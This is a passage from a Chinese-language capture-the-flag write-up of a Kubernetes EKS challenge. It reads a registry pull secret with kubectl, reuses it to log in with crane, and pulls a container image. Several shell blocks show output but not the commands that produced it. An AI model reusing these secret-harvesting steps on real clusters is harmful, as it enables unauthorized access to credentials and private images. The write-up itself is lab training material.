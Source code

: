 ```properties
  imagePullSecrets:
  - name: registry-pull-secrets-780bab1d
  [...]
status:
  [...]
```

可以发现pod的image以及secret名称，然后结合我们拥有的get secrets权限，获取secret的具体内容：

```typescript
root@wiz-eks-challenge:~# kubectl get secrets registry-pull-secrets-780bab1d -o json
{
    "apiVersion": "v1",
    "data": {
        ".dockerconfigjson": "eyJhdXR[...]RGJ3PT0ifX19"
    },
    "kind": "Secret",
    "metadata": {
        "annotations": {
            "pulumi.com/autonamed": "true"
        },
        "creationTimestamp": "2023-11-01T13:31:29Z",
        "name": "registry-pull-secrets-780bab1d",
        "namespace": "challenge2",
        "resourceVersion": "897340",
        "uid": "1348531e-57ff-42df-b074-d9ecd566e18b"
    },
    "type": "kubernetes.io/dockerconfigjson"
```

提示告诉我们，要检查容器注册表，这里提到了crane，所以我们利用crane进行后续操作。

crane是一款容器镜像管理工具\[4\]，操作时需要进行登录，示例如下：

```css
# Log in to reg.example.com
crane auth login reg.example.com -u AzureDiamond -p hunter2
```

因此我们可以尝试使用获取到的secret内容登录crane：

```ruby
root@wiz-eks-challenge:~
2023/11/13 03:24:25 logged in via /home/user/.docker/config.json
```

现在我们可以拉取镜像，使用 crane 进行操作：

```ruby
root@wiz-eks-challenge:~
root@wiz-eks-challenge:~
root@wiz-eks-challenge:/tmp
sha256:add093cd268deb7817aee1887b620628211a04e8733d22ab5c910f3b6cc91867
3f4d90098f5b5a6f6a76e9d217da85aa39b2081e30fa1f7d287138d6e7bf0ad7.tar.gz
193bf7018861e9ee50a4dc330ec5305abeade134d33d27a78ece55bf4c779e06.tar.gz
manifest.json
```
